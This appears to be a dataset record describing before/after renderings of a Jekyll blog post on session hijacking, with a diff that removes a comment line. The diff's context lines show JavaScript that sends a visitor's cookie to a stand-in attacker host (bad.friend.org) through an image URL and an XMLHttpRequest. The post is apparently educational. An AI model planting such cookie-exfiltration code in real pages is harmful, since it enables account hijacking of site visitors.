

Before and after one commit to wsec/basaam0.github.io, a Jekyll site: the page built from _posts/2018-02-18-hijacking.md, in a window 1280 px wide and 900 px high, scrolled down 496 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

```diff
--- a/_posts/2018-02-18-hijacking.md
+++ b/_posts/2018-02-18-hijacking.md
@@ -24,8 +24,6 @@ let url = `http://bad.friend.org/picture.jpg?$yourCookies={yourCookie}`;
 document.getElementsByTagName('image')[0].src = url;
 
 // AJAX - Unnoticed by the typical user, low-profile payload
-
-// string template https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals
 url = `http://bad.friend.org/gimmie?yourCookies=${yourCookie}`;
 let xhr = new XMLHttpRequest();
 xhr.open('GET', url, true);
```
Also changed, not shown: _posts/2018-02-20-server-fix.md (+1 -1 lines).
